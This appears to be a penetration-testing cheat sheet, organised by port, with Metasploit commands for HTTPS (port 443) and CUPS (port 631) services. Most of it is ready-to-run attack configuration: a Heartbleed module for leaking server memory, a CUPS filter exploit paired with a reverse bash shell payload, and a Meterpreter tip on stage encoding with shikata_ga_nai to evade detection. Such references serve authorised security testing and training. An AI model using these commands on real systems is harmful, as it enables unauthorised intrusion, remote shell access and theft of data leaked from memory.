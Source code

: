 
## Port 443 - HTTPS
**Service**: HTTP Secure  
**Common services**: SSL/TLS web servers, VPN gateways, secure applications

### Auxiliary: SSL/TLS Version Detection
```bash
use auxiliary/scanner/http/http_ssl
set RHOSTS [IP]
set RPORT 443
```
**Purpose**: Detects SSL/TLS versions and vulnerabilities.

### Exploit: Heartbleed (CVE-2014-0160)
```bash
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS [IP]
set RPORT 443
set VERBOSE true
```
**Purpose**: Exploits OpenSSL Heartbleed vulnerability to leak memory contents.

### Meterpreter Tip:
HTTPS services often require valid certificates for payloads:
```bash
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set StagerVerifySSLCert true
```

---

## Port 631 - CUPS
**Service**: Common UNIX Printing System  
**Common services**: CUPS, IPP (Internet Printing Protocol)

### Auxiliary: CUPS Information Disclosure
```bash
use auxiliary/scanner/http/cups_info
set RHOSTS [IP]
set RPORT 631
```
**Purpose**: Gathers version and configuration information from CUPS.

### Exploit: CUPS Filter Vulnerability
```bash
use exploit/unix/http/cups_filter_exec
set RHOST [IP]
set RPORT 631
set PAYLOAD cmd/unix/reverse_bash
```
**Purpose**: Exploits filter vulnerabilities in CUPS for command execution.
